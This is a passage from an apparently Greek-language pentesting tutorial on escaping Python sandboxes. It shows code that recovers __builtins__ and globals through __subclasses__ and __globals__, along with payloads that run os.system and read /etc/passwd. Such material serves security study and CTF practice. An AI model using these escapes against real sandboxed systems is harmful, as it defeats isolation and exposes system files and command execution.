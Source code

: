 ```python
print.__self__
dir.__self__
globals.__self__
len.__self__
__build_class__.__self__

# Obtain the builtins from a defined function
get_flag.__globals__['__builtins__']

# Get builtins from loaded classes
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"]
```
[**Παρακάτω υπάρχει μια μεγαλύτερη συνάρτηση**](./#recursive-search-of-builtins-globals) για να βρείτε δεκάδες/**εκατοντάδες** **θέσεις** όπου μπορείτε να βρείτε τα **builtins**.

#### Python2 και Python3
```python
# Recover __builtins__ and make everything easier
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
__builtins__["__import__"]('os').system('ls')
```
### Ενσωματωμένα payloads
```python
# Possible payloads once you have found the builtins
__builtins__["open"]("/etc/passwd").read()
__builtins__["__import__"]("os").system("ls")
# There are lots of other payloads that can be abused to execute commands
# See them below
```
## Globals and locals

Έλεγχος των **`globals`** και **`locals`** είναι ένας καλός τρόπος για να ξέρετε τι μπορείτε να αποκτήσετε πρόσβαση.
```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}
>>> locals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'attr': <module 'attr' from '/usr/local/lib/python3.9/site-packages/attr.py'>, 'a': <class 'importlib.abc.Finder'>, 'b': <class 'importlib.abc.MetaPathFinder'>, 'c': <class 'str'>, '__warningregistry__': {'version': 0, ('MetaPathFinder.find_module() is deprecated since Python 3.4 in favor of MetaPathFinder.find_spec() (available since 3.4)', <class 'DeprecationWarning'>, 1): True}, 'z': <class 'str'>}

# Obtain globals from a defined function
get_flag.__globals__

# Obtain globals from an object of a class
class_obj.__init__.__globals__

# Obtaining globals directly from loaded classes
[ x for x in ''.__class__.__base__.__subclasses__() if "__globals__" in dir(x) ]
[<class 'function'>]

```
